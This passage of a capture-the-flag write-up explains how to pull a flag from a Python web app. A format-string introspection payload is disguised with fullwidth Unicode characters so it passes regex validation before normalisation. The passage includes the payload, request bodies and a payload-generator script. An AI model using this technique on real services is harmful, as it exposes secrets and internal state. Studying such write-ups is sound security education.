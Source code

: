 ### Step 2: Craft the Payload

Our goal is to access the `sensitive` module and extract the flag. We can use Python's introspection capabilities:

```python
{user.__class__.__init__.__globals__[sensitive].FlagSystem.__init__.__code__.co_varnames}
```

Converting to Unicode equivalents:

```
｛user․__class__․__init__․__globals__［sensitive］․FlagSystem․__init__․__code__․co_varnames｝
```

### Step 3: Execute the Attack

1. **Register a malicious user:**

   ```json
   {
     "first_name": "｛user․__class__․__init__․__globals__［sensitive］․FlagSystem․__init__․__code__․co_varnames｝",
     "last_name": "test",
     "email": "attacker@test.com",
     "password": "password123"
   }
   ```

2. **Login to get authentication token:**

   ```json
   {
     "email": "attacker@test.com",
     "password": "password123"
   }
   ```

3. **Access profile endpoint:**
   Make a GET request to `/api/profile` with the authentication token.

### Step 4: Extract the Flag

When the profile endpoint processes our malicious first name:

1. The Unicode characters pass the regex validation
2. `normalize_string` converts them to ASCII equivalents
3. The `str(user).format(user=user)` call executes our format string
4. Python introspection reveals the `FlagSystem` class structure
5. We can access the flag through the revealed information

## Proof of Concept

The complete exploit script (`payload.py`):

```python
import re
import unidecode

def generate_payload(primary_payload: str) -> str:
    payload = primary_payload.replace("{", "｛").replace(
        "}", "｝").replace("[", "［").replace("]", "］").replace(".", "․")

    if unidecode.unidecode(payload) == primary_payload:
        print("Payload")
        print(payload)
        return payload
    else:
        print("Error: Payload contains non-ASCII characters")
```